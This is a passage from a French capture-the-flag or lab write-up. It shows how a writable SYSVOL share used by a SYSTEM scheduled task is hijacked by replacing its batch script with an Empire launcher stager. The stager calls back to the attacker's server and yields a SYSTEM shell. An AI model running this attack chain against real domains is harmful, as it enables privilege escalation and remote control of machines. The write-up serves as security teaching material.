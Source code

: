 ```
SYSVOL
# use Share
# ls
drw-rw-rw-          0  Thu May 17 13:45:48 2018 .
drw-rw-rw-          0  Thu May 17 13:45:48 2018 ..
-rw-rw-rw-        200  Wed May  9 11:04:17 2018 deploy_ckdrive.bat
drw-rw-rw-          0  Fri May 18 14:50:14 2018 Scripts
```

Nous pouvons y voir des scripts. Regardons leur contenus.

Contenu de deploy_ckdrive.bat :
```
REM DEPLOY SCHEDULED TASK ON ANY WINDOWS ON DEV DOMAIN FOR ADMINISTRATION PURPOSE
schtasks /create /RU system /sc minute /mo 5 /tn "deploy ckdrive" /tr \\ad.dev.pramacorp.fr\Share\Scripts\ckdrive.bat
```

Contenu de script ckdrive.bat :
```
REM INFO ABOUT DRIVE
IF EXIST C:\drive.log del C:\drive.log
@echo off
echo %time% > C:\drive.log
wmic logicaldisk get size,caption /format:value >> C:\drive.log
```

Bien bien, Une tâche avec les droits systèmes et qui utilise un script auquel nous avons accès. Eh bien, let's go, tentons d'uploader un agent Empire.  
Pourquoi Empire ? Il est vrai que dans un vrai domaine ce n'est pas vraiment discret, mais c'était l'occasion de le tester.
Il était aussi possible d'utiliser meterpreter ou un script récupérant le krbtgt et le mettre dans un shares (mais c'est peu discret par rapport aux autres joueurs).

Créons, un listener et un stager sur Empire.

```
(Empire: listeners) > usestager windows/launcher_bat
(Empire: usestager windows/launcher_bat) > usestager windows/launcher_bat
(Empire: usestager windows/launcher_bat) > set listener <votre_listener>
(Empire: usestager windows/launcher_bat) > generate
```

Modifier le fichier ckdrive récupéré avec launcher.bat et uploader le fichier sur le serveur (avec smbclient: `put ckdrive.bat`)
Attendons 5 min et que l'agent se connecte à notre serveur.

```
(Empire: agents) > interact L4GNAHWC
(Empire: L4GNAHWC) > whoami
[*] Tasked L4GNAHWC to run TASK_SHELL
[*] Agent L4GNAHWC tasked with task ID 1
(Empire: L4GNAHWC) > [*] Agent L4GNAHWC returned results.
NT AUTHORITY\SYSTEM
[*] Valid results returned by 151.80.230.58
```
